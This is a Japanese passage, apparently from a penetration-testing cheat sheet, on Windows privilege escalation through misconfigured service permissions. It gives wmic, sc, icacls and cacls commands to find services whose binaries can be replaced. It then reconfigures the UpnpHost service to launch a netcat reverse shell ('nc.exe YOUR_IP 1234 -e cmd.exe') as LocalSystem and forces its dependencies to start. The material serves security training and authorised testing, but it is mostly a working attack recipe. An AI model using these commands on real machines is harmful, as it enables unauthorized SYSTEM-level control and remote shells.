一般的な悪用ペイロードには、次のものが含まれます。影響を与えるバイナリをリバースシェルまたは新しいユーザーを作成して管理者グループに追加するコマンドに置き換える。影響を受けるサービスをペイロードに置き換えて、実行中のサービスを再起動します。

```cmd
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]

sc start/stop serviceName
```

次のコマンドは、影響を受けるサービスを出力します。

```cmd
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

wmicが利用できない場合は、sc.exeを使用できます。

````cmd
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
````

caclsを使用して各サービスを手動で確認することもできます。

```cmd
cacls "C:\path\to\file.exe"
```

#### UpnpHost

```cmd
sc qc upnphost
```

````cmd
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
````

依存関係がないために失敗した場合は、以下を実行します。

```cmd
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```

または、依存関係を削除します。

```cmd
sc config upnphost depend= ""
```
